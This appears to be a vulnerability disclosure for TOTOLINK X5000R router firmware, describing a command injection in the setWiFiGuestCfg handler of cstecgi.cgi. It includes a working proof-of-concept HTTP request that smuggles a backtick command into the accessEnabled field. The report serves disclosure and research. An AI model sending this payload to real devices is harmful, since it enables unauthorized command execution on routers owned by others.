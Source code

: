 ### Overview:

Affected Device: totolink X5000R

Affected Firmware Version: V9.1.0cu.2300_B20230112

Vulnerability: command injection, leading to arbitrary command execution

Firmware Download Link: [https://download.totolink.tw/uploads/firmware/X5000R/TOTOLINK_X5000R_V9.1.0cu.2300_B20230112.zip](https://download.totolink.tw/uploads/firmware/X5000R/TOTOLINK_X5000R_V9.1.0cu.2300_B20230112.zip)

Report Email: [zwx918569613@gmail.com](mailto:zwx918569613@gmail.com)

![](Pasted%20image%2020231128164123.png)

### Vulnerability:

This vulnerability is a Remote Code Execution (RCE) that allows attackers to make arbitrary command execution

The vulnerability is located in the function `sub_415800` within `cstecgi.cgi`, also known as `setWiFiGuestCfg`.

![](Pasted%20image%2020231128224912.png)


The function uses `Uci_Set_Str`, which passes the parameter `enable` as the fourth argument. In `libcscommon.so`,it can be observed that `Uci_Set_Str` calls `snprintf` to format our `param_4` into the string `uci -c %s set ....` and passes the string to the `CsteSystem` function,which will eventually be called by `execv`.

![](execv.png)

therefore , by controlling parameter among `time ,accessEnabled` , we can finally make an arbitrary command execution

### POC:
To reproduce the vulnerability, you can use the actual device or simulate it using qemu. The following POC can be used:

~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 106
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"accessEnabled":"`id > /1.txt;`","topicurl":"setWiFiGuestCfg","token":"00000000000000000000000000000000"}
~~~

(tips:if you use qemu emulation ur likely to patch a few places to work normally)
### Impact:

though there is an error msg , the command has indeed been executed

![](Pasted%20image%2020231128225110.png)